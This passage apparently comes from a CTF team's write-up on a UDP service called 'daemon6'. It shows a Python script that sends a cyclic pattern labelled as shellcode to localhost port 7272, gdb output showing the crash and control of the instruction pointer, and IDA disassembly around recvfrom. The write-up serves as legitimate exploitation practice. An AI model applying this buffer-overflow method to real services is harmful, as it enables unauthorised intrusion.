 host = "localhost"
port = 7272

shellcode="Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4A"

payload = "x30xff"+shellcode
sock = socket(AF_INET,SOCK_DGRAM)
sock.sendto(payload,(host,port))
sock.close()
</pre>

After launching this script, I saw daemon6 got segfault.

<pre>Program received signal SIGSEGV, Segmentation fault.

[Switching to Thread 0xb7e726c0 (LWP 23375)]

0x62413862 in ?? ()

(gdb)</pre>

So I change this string &#8220;b8Ab&#8221; in script to AAAA to re-check. And:

<pre>Program received signal SIGSEGV, Segmentation fault.

[Switching to Thread 0xb7e726c0 (LWP 23385)]

0x41414141 in ?? ()</pre>

Now I can control execution flow of program and now is the time to find out what caused of this vuln. Launch IDA and search for all occurences of Recv

![recv][2]

Follow recvfrom function

<pre class="brush: cpp; title: ; notranslate" title="">.text:0804D610                 call    _recvfrom
.text:0804D615                 add     esp, 20h
.text:0804D618                 test    eax, eax
.text:0804D61A                 js      recvfromerror
.text:0804D620
.text:0804D620 loc_804D620:                            ; CODE XREF: .text:0804D870j
.text:0804D620                 push    ecx
.text:0804D621                 push    0FCh
.text:0804D626                 push    0
.text:0804D628                 push    ebx
.text:0804D629                 call    _memset
.text:0804D62E                 pop     eax
.text:0804D62F                 pop     edx
.text:0804D630                 push    ebx
.text:0804D631                 lea     eax, [ebp-0CB0h]
.text:0804D637                 push    eax
.text:0804D638                 call    sub_804CC90
</pre>


 [1]: /about-us/clgt-ctf-team/
 [2]: http://img40.imageshack.us/img40/7356/screenshot6uh.png
 [3]: http://img215.imageshack.us/img215/3538/screenshot5wz.png